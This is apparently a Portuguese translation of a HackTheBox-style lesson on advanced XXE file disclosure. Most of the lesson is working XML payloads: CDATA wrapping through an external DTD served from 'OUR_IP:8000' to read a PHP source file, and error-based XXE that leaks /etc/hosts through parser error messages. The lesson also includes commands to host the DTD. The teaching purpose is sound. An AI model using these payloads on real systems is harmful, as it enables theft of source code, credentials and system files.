 # Divulgação avançada de Arquivos

Nem todas as vulnerabilidades XXE podem ser fáceis de explorar, como vimos na seção anterior. Alguns formatos de arquivo podem não ser legíveis por meio do XXE básico, enquanto em outros casos, o aplicativo da web pode não gerar nenhum valor de entrada em alguns casos, portanto, podemos tentar forçá-lo por meio de erros.

## Exfiltração Avançada com CDATA

Na seção anterior, vimos como poderíamos usar filtros PHP para codificar arquivos fonte PHP, de forma que eles não quebrassem o formato XML quando referenciados, o que (como vimos) nos impediu de ler esses arquivos. Mas e quanto a outros tipos de aplicativos da Web? Podemos utilizar outro método para extrair qualquer tipo de dados (incluindo dados binários) para qualquer back-end de aplicativo da web. Para gerar dados que não estão em conformidade com o formato XML, podemos agrupar o conteúdo da referência de arquivo externo com uma tag ``CDATA`` (por exemplo, \<![CDATA[ FILE_CONTENT ]]>). Desta forma, o analisador XML consideraria esta parte como dados brutos, que podem conter qualquer tipo de dados, incluindo quaisquer caracteres especiais.

Uma maneira fácil de resolver esse problema seria definir uma entidade interna inicial com \<![CDATA[, uma entidade interna final com ]]> e, em seguida, colocar nosso arquivo de entidade externa no meio, e deve ser considerado como um elemento ``CDATA`` , do seguinte modo:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Depois disso, se referenciarmos a entidade ``&joined;``, ela deve conter nossos dados escapados. Porém, isso não funcionará, pois o XML impede a união de entidades internas e externas, então teremos que encontrar uma forma melhor de fazer isso.

Para contornar essa limitação, podemos utilizar Entidades de Parâmetro XML, um tipo especial de entidade que começa com um caractere ``%`` e só pode ser usado dentro do ``DTD``. O que há de único nas entidades de parâmetro é que, se as referenciarmos a partir de uma fonte externa (por exemplo, nosso próprio servidor), todas elas serão consideradas externas e poderão ser unidas, como segue:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Então, vamos tentar ler o arquivo ``submitDetails.php`` primeiro armazenando a linha acima em um arquivo DTD (por exemplo, ``xxe.dtd``), hospedá-lo em nossa máquina e, em seguida, referenciá-lo como uma entidade externa no aplicativo web de destino, como segue :

```bash
NycolasES6@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
NycolasES6@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Agora, podemos referenciar nossa entidade externa (``xxe.dtd``) e então imprimir o entidade ``&joined;``  que definimos acima, que deverá conter o conteúdo do arquivo ``submitDetails.php``, conforme segue:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Depois de escrever nosso arquivo xxe.dtd, hospedá-lo em nossa máquina e, em seguida, adicionar as linhas acima à nossa solicitação HTTP para o aplicativo web vulnerável, podemos finalmente obter o conteúdo do arquivo submitDetails.php:

![alt text](web_attacks_xxe_php_cdata.jpg)

Como podemos ver, conseguimos obter o código-fonte do arquivo sem a necessidade de codificá-lo em base64, o que economiza muito tempo ao percorrer vários arquivos em busca de segredos e senhas.

> Nota: Em alguns servidores web modernos, podemos não ser capazes de ler alguns arquivos (como index.php), pois o servidor web estaria evitando um ataque DOS causado pela auto-referência de arquivo/entidade (ou seja, loop de referência de entidade XML) , conforme mencionado na seção anterior.

Este truque pode se tornar muito útil quando o método XXE básico não funciona ou ao lidar com outras estruturas de desenvolvimento web. Tente usar este truque para ler outros arquivos.

## XXE baseado em erro

Outra situação em que podemos nos encontrar é aquela em que o aplicativo Web pode não gravar nenhuma saída, portanto, não podemos controlar nenhuma das entidades de entrada XML para gravar seu conteúdo. Nesses casos, ficaríamos cegos para a saída XML e, portanto, não seríamos capazes de recuperar o conteúdo do arquivo usando nossos métodos usuais.

Se o aplicativo da web exibir erros de tempo de execução (por exemplo, erros de PHP) e não tiver tratamento de exceção adequado para a entrada XML, podemos usar essa falha para ler a saída do exploit XXE. Se a aplicação web não gravar saída XML nem exibir erros, enfrentaremos uma situação completamente ``cega``, que discutiremos na próxima seção.

Vamos considerar o exercício que temos em ``/error`` no final desta seção, no qual nenhuma das entidades de entrada XML é exibida na tela. Por causa disso, não temos nenhuma entidade que possamos controlar para gravar a saída do arquivo. Primeiro, vamos tentar enviar dados XML malformados e ver se o aplicativo da web exibe algum erro. Para isso, podemos deletar qualquer uma das tags de fechamento, alterar uma delas para que ela não feche (por exemplo, ``<roo>`` em vez de ``<root>``), ou apenas referenciar uma entidade inexistente, como segue:

![alt text](web_attacks_xxe_cause_error.jpg)

Vemos que realmente fizemos com que o aplicativo da web exibisse um erro e também revelou o diretório do servidor da web, que podemos usar para ler o código-fonte de outros arquivos. Agora, podemos explorar essa falha para exfiltrar o conteúdo do arquivo. Para fazer isso, usaremos uma técnica semelhante à que usamos anteriormente. Primeiro, hospedaremos um arquivo DTD que contém a seguinte carga:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

A carga acima define a entidade do parâmetro do arquivo e então a une a uma entidade que não existe. No nosso exercício anterior, juntámos três cordas. Neste caso, ``%nonExistingEntity;`` não existe, então o aplicativo da web geraria um erro dizendo que esta entidade não existe, junto com nosso ``%file;`` unido como parte do erro. Existem muitas outras variáveis que podem causar um erro, como um URI incorreto ou caracteres incorretos no arquivo referenciado.

Agora, podemos chamar nosso script DTD externo e, em seguida, referenciar a entidade de erro, como segue:

```xml
<!DOCTYPE email [ 
    <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %remote;
    %error;
]>
```

Assim que hospedarmos nosso script DTD como fizemos anteriormente e enviarmos a carga acima como nossos dados XML (sem necessidade de incluir quaisquer outros dados XML), obteremos o conteúdo do ``arquivo /etc/hosts`` da seguinte forma:

![alt text](web_attacks_xxe_exfil_error_2.jpg)

Este método também pode ser usado para ler o código-fonte dos arquivos. Tudo o que precisamos fazer é alterar o nome do arquivo em nosso script DTD para apontar para o arquivo que queremos ler (por exemplo, ``"file:///var/www/html/submitDetails.php"``). No entanto, este método não é tão confiável quanto o método anterior para leitura de arquivos de origem, pois pode ter limitações de comprimento e alguns caracteres especiais ainda podem quebrá-lo.
